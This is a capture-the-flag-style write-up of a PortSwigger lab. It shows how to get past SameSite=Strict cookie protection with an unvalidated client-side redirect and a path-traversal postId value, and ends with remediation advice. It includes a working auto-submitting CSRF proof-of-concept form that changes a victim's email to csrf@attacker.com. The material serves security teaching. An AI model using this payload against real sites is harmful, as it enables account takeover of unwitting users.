

# SameSite Strict bypass via client-side redirect

**Lab:** PortSwigger Web Security Academy — *SameSite Strict bypass via client-side redirect*.

> The change-email function is vulnerable to CSRF. Solve it by performing a CSRF attack that changes the victim's email address, using the provided exploit server. Credentials: `wiener:peter`.

## Why Strict normally blocks this

`SameSite=Strict` tells the browser to send the cookie **only** when the request originates from the same site. A form auto-submitted from the attacker's exploit server is cross-site, so the session cookie is withheld and the change-email request fails.

The way around it is to not send the final request cross-site at all. If the application contains a **client-side redirect** whose destination you can influence, you can aim a cross-site request at that redirect; the browser then issues the *real* request as a **same-site** navigation, and the Strict cookie rides along.

## 1. Find the on-site redirect gadget

After posting a comment, the application sends the browser to a confirmation endpoint that performs a **client-side** redirect based on the `postId` parameter:

```
GET /post/comment/confirmation?postId=<id>
```

The redirect builds a URL from `postId` without validating it, so a value like `../my-account/change-email?email=...` makes the browser redirect to the sensitive endpoint — on the same origin.

## 2. Build the PoC

Host this on the exploit server. The outer request targets the confirmation endpoint (the gadget); its `postId` traverses back to the change-email action:

```html
<html>
  <!-- CSRF PoC -->
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation">
      <input type="hidden" name="postId"
             value="../my-account/change-email?email=csrf@attacker.com&submit=1" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

The initial hit on `/post/comment/confirmation` is cross-site (no cookie needed there), but the redirect it triggers to `/my-account/change-email` is **same-site**, so the browser attaches the `SameSite=Strict` session cookie to it.

## 3. Deliver and solve

Store the exploit and deliver it to the victim. Their browser follows the client-side redirect, the change-email request is sent same-site with their cookie, and the email changes:



## Why the attack works

`SameSite=Strict` only inspects the origin of the request it is attached to. By laundering the sensitive request through an application-controlled client-side redirect, the final navigation is same-site, so Strict never engages. The root cause is an **open client-side redirect** (unvalidated `postId`).

## Remediation

Validate redirect targets against an allow-list so `postId` cannot be coerced into an arbitrary path, and protect state-changing actions with an unpredictable anti-CSRF token rather than relying on `SameSite` alone.
